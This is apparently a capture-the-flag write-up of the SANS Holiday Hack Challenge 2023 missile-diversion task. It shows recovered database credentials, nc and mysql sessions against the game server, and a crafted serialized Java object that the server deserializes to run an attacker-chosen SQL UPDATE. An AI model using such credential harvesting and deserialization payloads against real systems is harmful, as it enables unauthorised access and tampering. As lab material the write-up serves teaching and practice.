


# SANS Holiday Hack Challenge 2023 - 

## Description

> Thwart Jack's evil plan by re-aiming his missile at the Sun.

### Hints

> **Always Lock Your Computer**: Wombley thinks he may have left the admin tools open. I should check for those if I get stuck.

### Metadata

- Difficulty: 5/5
- Tags: `java`, `deserialization`, `sql`, `decompliation`

## Solution

### Video

Videos are coming soon! I did not want to put them on GitHub as they are 10 - 100 MBs.
<!-- <video src="media/missile-diversion.mp4" width='100%' controls playsinline></video> -->

### Write-up

If we were careful during the `Camera Access` challenge, we might've discovered that we have a `missile-targeting-system` app too.

Let's start it and connect to it.

It has a `Debug` action which returns parameters like a `MariaDB` version string.



This suggest that there is a MariaDB running on the server.

Let's try to find the source of the `missile-targeting-system`. Some `JAR` file is present in the `/opt/nmf/lib` folder ([missile-targeting-system-2.1.0-SNAPSHOT.jar](files/missile-targeting-system-2.1.0-SNAPSHOT.jar)).

If we decompile the JAR file with for example JADX-GUI, we can see a `JDBC` connection string with a username and password.

```java
Connection connection = DriverManager.getConnection("jdbc:mariadb://localhost:3306/missile_targeting_system?allowMultiQueries=true", "targeter", "cu3xmzp9tzpi00bdqvxq");
```



One of the hints suggest that the admin tools were left open, this might mean the MariaDB server is not only accessible from `localhost` in the server.

```shell
root@cf0a824d71e5:/opt/nmf# nc 10.1.1.1 3306
i
11.2.2-MariaDB-1:11.2.2+maria~ubu2204�@Bks~Bjp-rnP&llZ]G)6qmysql_native_password
```

Yes, it is accessible from us so we can connect to it with the collected credentials.

```sql
root@cf0a824d71e5:/opt/nmf# mysql -u targeter -p  -h 10.1.1.1
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 1280
Server version: 11.2.2-MariaDB-1:11.2.2+maria~ubu2204 mariadb.org binary distribution

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------------+
| Database                 |
+--------------------------+
| information_schema       |
| missile_targeting_system |
+--------------------------+
2 rows in set (0.14 sec)

mysql>
mysql> use missile_targeting_system;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------------------------+
| Tables_in_missile_targeting_system |
+------------------------------------+
| messaging                          |
| pointing_mode                      |
| pointing_mode_to_str               |
| satellite_query                    |
| target_coordinates                 |
+------------------------------------+
5 rows in set (0.14 sec)

mysql> select * from pointing_mode;
+----+----------------+
| id | numerical_mode |
+----+----------------+
|  1 |              0 |
+----+----------------+
1 row in set (0.16 sec)

mysql> update pointing_mode set numerical_mode = 1;
ERROR 1142 (42000): UPDATE command denied to user 'targeter'@'10.1.1.2' for table `missile_targeting_system`.`pointing_mode`
```

As we can see, we cannot modify the `pointing_mode` table. Let's find out what our user is capable of.

```sql
mysql> show grants;
+---------------------------------------------------------------------------------------------------------+
| Grants for targeter@%                                                                                   |
+---------------------------------------------------------------------------------------------------------+
| GRANT USAGE ON *.* TO `targeter`@`%` IDENTIFIED BY PASSWORD '*41E2CFE844C8F1F375D5704992440920F11A11BA' |
| GRANT SELECT, INSERT ON `missile_targeting_system`.`satellite_query` TO `targeter`@`%`                  |
| GRANT SELECT ON `missile_targeting_system`.`pointing_mode` TO `targeter`@`%`                            |
| GRANT SELECT ON `missile_targeting_system`.`messaging` TO `targeter`@`%`                                |
| GRANT SELECT ON `missile_targeting_system`.`target_coordinates` TO `targeter`@`%`                       |
| GRANT SELECT ON `missile_targeting_system`.`pointing_mode_to_str` TO `targeter`@`%`                     |
+---------------------------------------------------------------------------------------------------------+
6 rows in set (0.13 sec)
```

We can `INSERT` into the `satellite_query` table, so we should examine that.

```
mysql> show satellite_query;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'satellite_query' at line 1
mysql> describe satellite_query;
+---------+---------+------+-----+---------+----------------+
| Field   | Type    | Null | Key | Default | Extra          |
+---------+---------+------+-----+---------+----------------+
| jid     | int(11) | NO   | PRI | NULL    | auto_increment |
| object  | blob    | YES  |     | NULL    |                |
| results | text    | YES  |     | NULL    |                |
+---------+---------+------+-----+---------+----------------+
3 rows in set (0.13 sec)

mysql> select * from satellite_query;
| jid | object | results |
|   1 | 0xACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B787000007400292F6F70742F536174656C6C697465517565727946696C65466F6C6465725574696C6974792E6A617661 | import java.io.Serializable;
import java.io.IOException;
import java.nio.charset.StandardCharsets;
import java.nio.file.*;
import java.util.stream.Collectors;
import java.util.stream.Stream;
import java.sql.*;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;
import com.google.gson.Gson;

public class SatelliteQueryFileFolderUtility implements Serializable {
    private String pathOrStatement;
    private boolean isQuery;
    private boolean isUpdate;

    public SatelliteQueryFileFolderUtility(String pathOrStatement, boolean isQuery, boolean isUpdate) {
        this.pathOrStatement = pathOrStatement;
        this.isQuery = isQuery;
        this.isUpdate = isUpdate;
    }

    public String getResults(Connection connection) {
        if (isQuery && connection != null) {
            if (!isUpdate) {
                try (PreparedStatement selectStmt = connection.prepareStatement(pathOrStatement);
                    ResultSet rs = selectStmt.executeQuery()) {
                    List<HashMap<String, String>> rows = new ArrayList<>();
                    while(rs.next()) {
                        HashMap<String, String> row = new HashMap<>();
                        for (int i = 1; i <= rs.getMetaData().getColumnCount(); i++) {
                            String key = rs.getMetaData().getColumnName(i);
                            String value = rs.getString(i);
                            row.put(key, value);
                        }
                        rows.add(row);
                    }
                    Gson gson = new Gson();
                    String json = gson.toJson(rows);
                    return json;
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            } else {
                try (PreparedStatement pstmt = connection.prepareStatement(pathOrStatement)) {
                    pstmt.executeUpdate();
                    return "SQL Update completed.";
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            }
        } else {
            Path path = Paths.get(pathOrStatement);
            try {
                if (Files.notExists(path)) {
                    return "Path does not exist.";
                } else if (Files.isDirectory(path)) {
                    // Use try-with-resources to ensure the stream is closed after use
                    try (Stream<Path> walk = Files.walk(path, 1)) { // depth set to 1 to list only immediate contents
                        return walk.skip(1) // skip the directory itself
                                .map(p -> Files.isDirectory(p) ? "D: " + p.getFileName() : "F: " + p.getFileName())
                                .collect(Collectors.joining("\n"));
                    }
                } else {
                    // Assume it's a readable file
                    return new String(Files.readAllBytes(path), StandardCharsets.UTF_8);
                }
            } catch (IOException e) {
                return "Error reading path: " + e.toString();
            }
        }
    }

    public String getpathOrStatement() {
        return pathOrStatement;
    }
}
 |
1 row in set (0.13 sec)
```

The `object` column contains a serialized Java object. This object is happened to be an instance of the `SatelliteQueryFileFolderUtility` class present in the `results` column.

The constructor gets 3 arguments (`String pathOrStatement, boolean isQuery, boolean isUpdate`), if the second and third parameter is true, it will execute the update query given in the first parameter. If the `isQuery` argument is `false`, it will read the file on the path given in the first argument, this happened in the first row.

Let's try to insert a malformed byte stream which is not a serialized Java object.

```sql
mysql> INSERT INTO satellite_query (object) VALUES (X'ABCDEF');
Query OK, 1 row affected (0.14 sec)

mysql> select * from satellite_query;
| jid | object | results |
[...]
|   2 | 0xABCDEF | Deserialization/IO Exception: java.io.EOFException |
2 rows in set (0.13 sec)
```

We get an error!

We might be able to serialize an object of the `SatelliteQueryFileFolderUtility` class which is initialized with the proper UPDATE SQL statement and the other two properties are set to true. Our guess it that the server (some automatism) will deserialize the object and execute the `getResult()` function. Let's write the serialization logic ([main.java](files/main.java)) in Java using the collected class.

```java
String filename = "SatelliteQueryFileFolderUtility-update.ser";
SatelliteQueryFileFolderUtility object = new SatelliteQueryFileFolderUtility("UPDATE pointing_mode SET numerical_mode=1;", true, true);
try
{   
    FileOutputStream file = new FileOutputStream(filename);
    ObjectOutputStream out = new ObjectOutputStream(file);
    out.writeObject(object);
    out.close();
    file.close();
    System.out.println("Object has been serialized");
}
    
catch(IOException ex)
{
    System.out.println("IOException is caught");
}
```
 
Now we can compile it and get the bytes of the serialized object (we just need the [gson-2.10.1.jar](files/gson-2.10.1.jar) library).

```shell
$ java -classpath gson-2.10.1.jar main.java 
$ xxd -p SatelliteQueryFileFolderUtility-update.ser | tr -d '\n'
aced00057372001f536174656c6c697465517565727946696c65466f6c6465725574696c69747912d4f68d0eb392cb0200035a0007697351756572795a000869735570646174654c000f706174684f7253746174656d656e747400124c6a6176612f6c616e672f537472696e673b7870010174002a55504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f64653d313b
```

If we insert the result into the `satellite_query` table, it will successfully execute and update the `pointing_mode`.

```sql
mysql> INSERT INTO satellite_query (object) VALUES (X'aced00057372001f536174656c6c697465517565727946696c65466f6c6465725574696c69747912d4f68d0eb392cb0200035a0007697351756572795a000869735570646174654c000f706174684f7253746174656d656e747400124c6a6176612f6c616e672f537472696e673b7870010174002a55504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f64653d313b');
Query OK, 1 row affected (0.13 sec)

mysql> select * from satellite_query;
| jid | object  | results |
[...]
|   3 | 0xACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B7870010174002A55504441544520706F696E74696E675F6D6F646520534554206E756D65726963616C5F6D6F64653D313B | SQL Update completed.|
3 rows in set (0.14 sec)

mysql> select * from pointing_mode;
+----+----------------+
| id | numerical_mode |
+----+----------------+
|  1 |              1 |
+----+----------------+
1 row in set (0.14 sec)
```

> **Wombley Cube (Zenith SGS)**:
*A... missile... aimed for Santa's sleigh? I had no idea...
I can't believe I was manipulated like this. I've been trained to recognize these kinds of tactics!
Santa should never have put the holiday season at risk like he did, but I didn't know Jack's true intentions.
I'll help you bring Jack to justice...
But my mission to ensure Santa never again compromises the holidays is still in progress.
It sounded like the satellite crashed. Based on the coordinates, looks like the crash site is right near Rudolph's Rest.
Use the door to the right to return to the resort lobby and see what happened!
Don't worry, I'll meet you there... trust me.*